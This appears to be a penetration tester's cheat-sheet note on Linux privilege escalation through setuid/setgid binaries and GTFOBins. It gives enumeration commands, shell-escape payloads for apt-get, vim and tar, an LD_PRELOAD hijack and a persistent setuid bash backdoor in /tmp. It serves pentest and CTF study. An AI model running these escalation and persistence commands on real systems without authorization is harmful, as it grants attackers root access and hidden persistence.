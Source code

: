 ### 1. Technique Name:

Special Permissions – setuid/setgid Abuse & GTFOBins
### 2. Summary:

Linux special permissions include `setuid` and `setgid`, which allow files or binaries to execute with the privileges of the file owner or group. If a binary with elevated privileges (e.g., owned by `root`) is misconfigured or inherently dangerous (like those listed on [GTFOBins](https://gtfobins.github.io/)), it can be exploited to gain privilege escalation.
### 3. Conditions / Requirements:

- Binary has `setuid` (`s` in owner permissions) or `setgid` (`s` in group permissions)
- Executable is owned by `root` or a high-privilege user
- Binary allows unintended command execution, file editing, or shell escape
- (Optional) Binary is listed on GTFOBins with a known exploit method
### 4. Enumeration:
#### A. Find `setuid` binaries owned by root:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
#### B. Find `setgid` binaries owned by root:

```bash
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
#### C. Check specific binary behavior:

```bash
strings /path/to/binary | less
ldd /path/to/binary
```
#### D. Cross-reference with GTFOBins:

- Visit: [https://gtfobins.github.io/](https://gtfobins.github.io/)    
- Look up binary (e.g., `less`, `vim`, `cp`, `find`, `tar`, etc.)
- Check for "SUID" or "SUDO" exploitation methods
### 5. Exploitation:
#### A. Direct command injection if supported:

```bash
./vulnerable_binary some_input; /bin/bash
```
#### B. Use GTFOBins-provided payloads:

```bash
# Example: `apt-get` with SUDO privileges
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```
#### C. Hijack library or environment variable (if `setuid` binary is not stripping env):

```bash
LD_PRELOAD=/tmp/shell.so ./setuid_binary
```
#### D. Reverse engineer unknown binaries for insecure functions (e.g., `system()`, file write operations)
### 6. Post-Exploitation:

- Maintain access via cronjob or setuid shell

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

- Cleanup modified binaries or created shells
- Enumerate for additional privilege escalation paths
### 7. Example:
#### A. Discovered `setuid` binary:

```bash
-rwsr-xr-x 1 root root 16728 payroll
```
#### B. Check execution:

```bash
./payroll
```
#### C. If not exploitable directly, check for:

- External library loading (shared object hijacking)    
- Command injection in arguments
- File path manipulation (PATH hijacking)
#### D. GTFOBin Example (e.g., `vim`):

```bash
vim -c ':!sh'
```

Or for `tar`:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #SUID #GUID